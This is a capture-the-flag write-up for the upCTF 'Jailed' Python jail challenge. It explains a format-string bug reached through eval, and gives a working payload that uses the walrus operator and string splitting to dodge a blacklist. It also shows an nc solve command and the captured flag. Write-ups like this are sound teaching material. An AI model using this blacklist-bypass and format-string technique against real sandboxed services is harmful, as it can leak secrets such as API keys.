

# Jailed

**Category:** Misc  
**Difficulty:** Easy 
**CTF:** upCTF  
**Challenge:** Jailed  
**Files:** `chall.py`

## Description

> yes it is a pyjail, yes it is cool, yes it isn't too hard.

## TL;DR

This challenge looked like a normal Python jail at first, but the real issue was not in `eval()` itself. The important bug was the call to `friend.format(self=self)` after the eval finished. I used the walrus operator to create a new `friend` variable inside the restricted globals, turned it into a format string, and then used that format string to read `self.__init__.__globals__[API_KEY]`, which contained the flag.

---

## Initial Analysis

I started by reading the source carefully instead of trying random pyjail payloads against the remote service.

```python
import os
API_KEY = os.getenv("FLAG")

class cdm22b:
    def __init__(self):
        self.SAFE_GLOBALS = locals()
        self.SAFE_GLOBALS['__builtins__'] = {}
        self.name = "cdm"
        self.role = "global hacker, hacks planets"
        self.friend = "No one"

    def validateInput(self, input: str) -> tuple[bool, str]:
        if len(input) > 66:
            return False, 'to long, find a shorter way'

        for builtin in dir(__builtins__):
            if builtin.lower() in input.lower():
                return False, 'builtins would be too easy!'

        if any(i in input for i in '\",;`'):
            return False, 'bad bad bad chars!'

        return True, ''

    def safeEval(self, s):
        try:
            eval(s, self.SAFE_GLOBALS)
        except Exception:
            print("Something went wrong")

    def myFriend(self):
        friend = self.SAFE_GLOBALS.get('friend', self.friend)
        print(friend.format(self=self))
```

A few things stood out immediately:

- The flag was stored in a global variable through `os.getenv("FLAG")`.
- The input was evaluated with `eval()` and an empty `__builtins__`.
- There was a blacklist for builtin names and some characters.
- After `eval()`, the code called `.format(self=self)` on a value that I could potentially control.

That last point was the actual vulnerability.

---

## The Bug

The challenge tried to make `eval()` look scary, but the useful primitive was here:

```python
friend = self.SAFE_GLOBALS.get('friend', self.friend)
print(friend.format(self=self))
```

If I could make `friend` point to my own string, I would get a format-string evaluation with access to `self`.

That meant I did not need a full pyjail escape. I only needed a way to inject a string like this:

```python
{self.__init__.__globals__[API_KEY]}
```

When `.format(self=self)` processed that string, it would resolve the global `API_KEY` variable and print the flag.

---

## The Constraints

There were still two annoying restrictions:

1. I could not use statements because the code used `eval()`, not `exec()`.
2. The blacklist rejected any input containing builtin names as raw substrings.

The second restriction mattered because `globals` is also a builtin name, so writing `__globals__` directly would be rejected.

I solved both constraints cleanly:

- I used the **walrus operator** (`:=`) so I could assign a value inside a single expression.
- I split `globals` into two string literals, so the blacklist never saw the full word in the raw payload.

---

## Final Payload

```python
(friend:='{self.__init__.__glo'+'bals__[API_KEY]}')
```

This does exactly what I needed:

- It creates a new variable called `friend` inside `SAFE_GLOBALS`.
- The value assigned to `friend` becomes:

```python
{self.__init__.__globals__[API_KEY]}
```

- Then `myFriend()` calls:

```python
friend.format(self=self)
```

- That resolves `self.__init__.__globals__[API_KEY]` and prints the flag.

---

## Exploitation Flow

Here is the full chain in one place:

1. The program reads my input.
2. The blacklist allows the payload because `globals` never appears as one contiguous substring.
3. `eval()` runs my expression.
4. The walrus operator stores my controlled format string in `friend`.
5. `myFriend()` fetches `friend` from `SAFE_GLOBALS`.
6. `.format(self=self)` evaluates the field expression.
7. The code prints `API_KEY`, which is the flag.

---

## Solve Command

I solved it with:

```bash
cat <<'EOF' | nc 46.225.117.62 30002
(friend:='{self.__init__.__glo'+'bals__[API_KEY]}')
EOF
```


And the service returned:

```text
upCTF{fmt_str1ng5_4r3nt_0nly_a_C_th1ng-d140Z8JX0c70368e}
```

---

## Why This Worked

The nice part about this challenge was that it looked like I needed to escape a restricted Python environment, but in practice I only needed to notice the format-string sink.

The `eval()` restrictions were mostly a distraction. Once I realized I could control `friend`, the rest became a matter of building a short enough payload that survived the blacklist.

The `globals` split was the small trick that made the whole exploit work.

---

## Flag

```text
upCTF{fmt_str1ng5_4r3nt_0nly_a_C_th1ng-d140Z8JX0c70368e}
```

---

## Closing Note

I liked this challenge because it mixed pyjail ideas with a format-string bug in a very compact way. If I had focused only on escaping `eval()` directly, I would have wasted time. The fastest route was just reading the source carefully, spotting the dangerous `.format(self=self)`, and then turning that into a flag read with the shortest payload possible.
